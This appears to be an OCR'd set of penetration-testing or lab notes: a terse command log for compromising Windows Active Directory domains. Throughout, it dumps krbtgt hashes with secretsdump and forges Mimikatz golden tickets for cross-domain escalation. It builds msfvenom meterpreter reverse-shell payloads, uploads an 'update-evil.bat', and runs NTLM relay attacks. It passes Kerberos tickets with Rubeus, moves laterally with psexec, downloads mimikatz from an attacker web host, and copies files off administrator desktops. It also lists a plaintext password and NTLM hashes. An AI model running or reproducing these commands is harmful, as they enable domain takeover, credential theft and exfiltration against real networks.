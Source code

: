 python3 lookupsid.py zero/freya@dczero | grep "Domain SID"  
    Domain SID is: S-1-5-21-3128073206-3686985830-824703377  
python3 lookupsid.py zero/freya@dcarc | grep "Domain SID"  
    Domain SID is: S-1-5-21-1970956415-843115013-4046186837  
python3 secretsdump.py zero/freya:mountain@dczero -outputfile krbhash -user-status  
    4f79191a1ceafadd15de32fb617ce29c  
     
kerberos::golden /user:freya /domain:zero.arc.corp /sid:S-1-5-21-3128073206-3686985830-824703377  /krbtgt:4f79191a1ceafadd15de32fb617ce29c /sids:S-1-5-21-1970956415-843115013-4046186837-519 /ptt  
dir [\\](file:///\\dcarc\c$)dcarc\c$  
psexec.exe -accepteula [\\](file:///\\dcarc)dcarc cmd  
dir [\\](file:///\\dcarc\C$\Users\Administrator\Desktop)dcarc\C$\Users\Administrator\Desktop  
copy [\\](file:///\\dcarc\C$\Users\Administrator\Desktop\old_kinetic_stuff.cab)dcarc\C$\Users\Administrator\Desktop\old_kinetic_stuff.cab .\  
copy [\\](file:///\\dcarc\C$\Users\Administrator\Desktop\New_Employee_Welcome_Letter.pdf)dcarc\C$\Users\Administrator\Desktop\New_Employee_Welcome_Letter.pdf .\  
scp freya@femmefatale:C:/Users/freya/Documents/old_kinetic_stuff.cab /opt/kinetic/old_kinetic_stuff.cab  
scp freya@femmefatale:C:/Users/freya/Documents/New_Employee_Welcome_Letter.pdf /opt/kinetic/welcome.pdf  
## DevSuper to Moondust  
nmap -sS -A -n -p1-60000 devsuper  
python3 smbclient.py kinetic/cyn@devsuper  
Google port 1978 exploit..open in edb and search for exploit - 50972  
searchsploit 50972  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4333 -f exe > ms_4333.exe  
python3 smbclient.py kinetic/cyn@devsuper  
python3 smbclient.py pris@devsuper  
john dcc.txt  
Get-MpComputerStatus  
netstat -ano  
reg query hklm\Software\Microsoft\Windows\CurrentVersion\Policies\System  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx LPORT=4331 -f exe > ms_4331.exe  
ftp  
binary  
put m4446-76.exe m4446-76.exe  
ascii  
put update-evil.bat update.bat  
## NTML Relay Attacks  
python3 smbserver.py -smb2support tmp /tmp  
python3 ntlmrelayx.py -tf /opt/kinetic/1out.txt -smb2support  
inveigh.exe  
type Inveigh-NTLMv2.txt  
## PTT & Over PtH  
sekurlsa::tickets /export  
kerberos::ptt  
rubeus.exe dump /nowrap  
rubeus.exe ptt /ticket:  
psexec.exe -accepteula [\\](file:///\\viperwarhawk)viperwarhawk cmd  
python3 ticketConverter.py case.ccache case.kirbi  
rubeus.exe ptt /ticket:  
mv case.kirbi /var/www/html/kinetic  
powershell iwr -uri [http://xxx/kinetic/case.kirbi](http://xxx/kinetic/case.kirbi) -outfile .\case.kirbi  
base64 case.kirbi |tr -d [\\](file:///\\n)n  
python3 getTGT.py kinetic.corp/case -dc-ip 10.65.1.20 -hashes :76e1f33b798c3cd6ed74620d21a33299  
ntpdate  
export KRB5CCNAME=/opt/impacket3/examples/case.ccache  
python3 psexec.py  -dc-ip 10.65.1.20 -k -no-pass kinetic.corp/case@viperwarhawk  
powershell iwr -uri [http://xxx/mimikatz.exe](http://xxx/mimikatz.exe) -outfile .\mimikatz.exe  
python3 getTGT.py kinetic/case -dc-ip 10.65.1.20 -hashes :76e1f33b798c3cd6ed74620d21a33299  